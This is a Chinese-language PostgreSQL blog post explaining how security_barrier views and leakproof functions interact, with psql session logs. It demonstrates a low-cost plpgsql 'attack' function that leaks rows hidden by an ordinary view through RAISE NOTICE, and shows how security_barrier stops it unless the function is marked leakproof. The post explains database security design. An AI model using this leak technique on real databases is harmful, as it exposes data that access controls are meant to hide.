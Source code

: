 ## PostgreSQL leakproof function in rule rewrite("attack" security_barrier views)  
##### [TAG 6](../class/6.md)
                                                 
### 作者                                                 
digoal                                                  
                                                    
### 日期                                                  
2014-04-14                                                                          
                                                  
### 标签                                                                                                                                                                  
PostgreSQL , leakproof , 安全栅栏 , 优化器 , 算子优先级 , 视图攻击                              
                                              
----                                                  
                                                
## 背景              
上一篇BLOG我介绍了一下PostgreSQL 9.4新增的一个功能, 支持自动更新设置了安全栅栏的简单视图.  
  
http://blog.163.com/digoal@126/blog/static/163877040201431475019925/  
  
在文章结尾的时候提到leakproof函数和安全栅栏条件一样, 在重写规则时会放到用户的过滤条件之前执行.  
  
因此, 安全栅栏并不能防止leakproof的攻击(当然, 只有超级用户才能创建leakproof函数, 所以也不能说利用leakproof来攻击了. 因为既然有了超级用户权限, 就不需要这么麻烦来获取数据了, 直接读原表得了.).   
  
另外, 使用leakproof函数需要注意的是它的实际执行成本, 如果实际执行成本很高的函数, 又没有特别的需要让它先执行, 那么最好不要设置为leakproof, 因为它不管其他过滤条件, 都是先执行的.  
  
我们可以拿视图攻击的例子来演示这个攻击 :   
  
## 正文  
普通视图的攻击例子 :   
  
```  
digoal=# create table userinfo(id int, groupid int, username text, age int, addr text, email text, phone text);  
CREATE TABLE  
digoal=# insert into userinfo values (1, 1, 'digoal', 1000, '杭州西湖区', 'digoal@126.com', '13999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (2, 1, 'test', 1000, '火星', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (3, 1, 'test', 1000, '月球', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# insert into userinfo values (4, 2, 'test', 1000, '土星', 'digoal@126.com', '11999999999');  
INSERT 0 1  
digoal=# create view v_userinfo as select * from userinfo where groupid =2;  
CREATE VIEW  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from userinfo;  
ERROR:  permission denied for relation userinfo  
digoal=> select * from v_userinfo;  
ERROR:  permission denied for relation v_userinfo  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# grant select on v_userinfo to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$  
digoal$> declare  
digoal$> begin  
digoal$>   raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;  
digoal$>   return true;  
digoal$> end;  
digoal$> $$ language plpgsql cost 0.00000000000000000000001;  
CREATE FUNCTION  
digoal=> select * from v_userinfo;  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
  
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
设置视图的安全栅栏属性 :   
  
使用普通的函数就不能攻击他了.  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# create view v_userinfo_1 with(security_barrier) as select * from userinfo where id=2;  
CREATE VIEW  
  
digoal=# grant select on v_userinfo_1 to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
但是, 如果把函数设置为leakproof, 就可以被攻击了.  
  
```  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) leakproof;  
ALTER FUNCTION  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  2 |       1 | test     | 1000 | 火星 | digoal@126.com | 11999999999  
(1 row)  
```  
  
原因是在重写规则时, leakproof函数和安全栅栏条件一样, 被放到了relation层过滤, 而普通函数则在子查询中过滤 :   
  
```  
digoal=> explain verbose select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
                                                                       QUERY PLAN                                                     
                       
------------------------------------------------------------------------------------------------------------------------------------  
---------------------  
 Seq Scan on public.userinfo  (cost=0.00..34.00 rows=3 width=140)  
   Output: userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone  
   Filter: (attack(userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone) AN  
D (userinfo.id = 2))  
(3 rows)  
  
digoal=> \c digoal postgres  
You are now connected to database "digoal" as user "postgres".  
digoal=# alter function digoal.attack(int,int,text,int,text,text,text) not leakproof;  
ALTER FUNCTION  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> explain verbose select * from v_userinfo_1 where attack(id,groupid,username,age,addr,email,phone);  
                                                                         QUERY PLAN                                                   
                           
------------------------------------------------------------------------------------------------------------------------------------  
-------------------------  
 Subquery Scan on v_userinfo_1  (cost=0.00..34.10 rows=3 width=140)  
   Output: v_userinfo_1.id, v_userinfo_1.groupid, v_userinfo_1.username, v_userinfo_1.age, v_userinfo_1.addr, v_userinfo_1.email, v_  
userinfo_1.phone  
   Filter: attack(v_userinfo_1.id, v_userinfo_1.groupid, v_userinfo_1.username, v_userinfo_1.age, v_userinfo_1.addr, v_userinfo_1.em  
ail, v_userinfo_1.phone)  
   ->  Seq Scan on public.userinfo  (cost=0.00..34.00 rows=10 width=140)  
         Output: userinfo.id, userinfo.groupid, userinfo.username, userinfo.age, userinfo.addr, userinfo.email, userinfo.phone  
         Filter: (userinfo.id = 2)  
(6 rows)  
```  
  
当然, 只有超级用户才能创建leakproof函数, 所以也不能说利用leakproof来攻击了. 因为既然有了超级用户权限, 就不需要这么麻烦来获取数据了, 直接读原表得了.  
  
```  
digoal=> \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> alter function digoal.attack(int,int,text,int,text,text,text) not leakproof;  
ALTER FUNCTION  
digoal=> alter function digoal.attack(int,int,text,int,text,text,text) leakproof;  
ERROR:  only superuser can define a leakproof function  
```  
  
## 参考  
1\. http://www.postgresql.org/docs/devel/static/rules-privileges.html  
  
2\. http://blog.163.com/digoal@126/blog/static/163877040201361031431669/  
  
3\. http://blog.163.com/digoal@126/blog/static/163877040201431475019925/  
    
                          
  
<a rel="nofollow" href="http://info.flagcounter.com/h9V1"  ><img src="http://s03.flagcounter.com/count/h9V1/bg_FFFFFF/txt_000000/border_CCCCCC/columns_2/maxflags_12/viewers_0/labels_0/pageviews_0/flags_0/"  alt="Flag Counter"  border="0"  ></a>  
  
  
  
  
  
  
## [digoal's 大量PostgreSQL文章入口](https://github.com/digoal/blog/blob/master/README.md "22709685feb7cab07d30f30387f0a9ae")
  
  
## [免费领取阿里云RDS PostgreSQL实例、ECS虚拟机](https://free.aliyun.com/ "57258f76c37864c6e6d23383d05714ea")
  
